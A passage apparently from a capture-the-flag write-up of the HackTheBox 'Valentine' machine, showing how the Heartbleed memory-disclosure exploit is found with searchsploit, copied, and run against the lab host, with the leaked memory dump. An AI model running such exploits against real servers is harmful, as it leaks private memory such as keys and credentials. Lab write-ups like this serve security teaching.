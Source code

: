![Are you still there, server? It's me,
Margaret.](https://0xdfimages.gitlab.io/img/xkcd-heartbleed_explaination.png)

#### Running Exploit

Grab a script to exploit:

    
    
    root@kali# searchsploit heartbleed
    -------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
     Exploit Title                                                                                                                              |  Path
                                                                                                                                                | (/usr/share/exploitdb/)
    -------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
    OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)                                         | exploits/multiple/remote/32764.py
    OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                                                         | exploits/multiple/remote/32791.c
    OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                                                          | exploits/multiple/remote/32998.c
    OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                                                            | exploits/multiple/remote/32745.py
    -------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    
    root@kali# searchsploit -m exploits/multiple/remote/32745.py
      Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
          URL: https://www.exploit-db.com/exploits/32745/
         Path: /usr/share/exploitdb/exploits/multiple/remote/32745.py
    File Type: Python script, ASCII text executable, with CRLF line terminators
    
    Copied to: ~/hackthebox/valentine-10.10.10.79/32745.py
    

The script runs and grabs memory from the target server (it’s useful to remove
lines of 0):

    
    
    root@kali# python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
    Trying SSL 3.0...
    Connecting...
    Sending Client Hello...
    Waiting for Server Hello...
     ... received message: type = 22, ver = 0300, length = 94
     ... received message: type = 22, ver = 0300, length = 885
     ... received message: type = 22, ver = 0300, length = 331
     ... received message: type = 22, ver = 0300, length = 4
    Sending heartbeat request...
     ... received message: type = 24, ver = 0300, length = 16384
    Received heartbeat response:
      0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
      0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
      0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
      0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
      0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
      0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
      0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
      0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
      0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
      0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
      00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
      00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................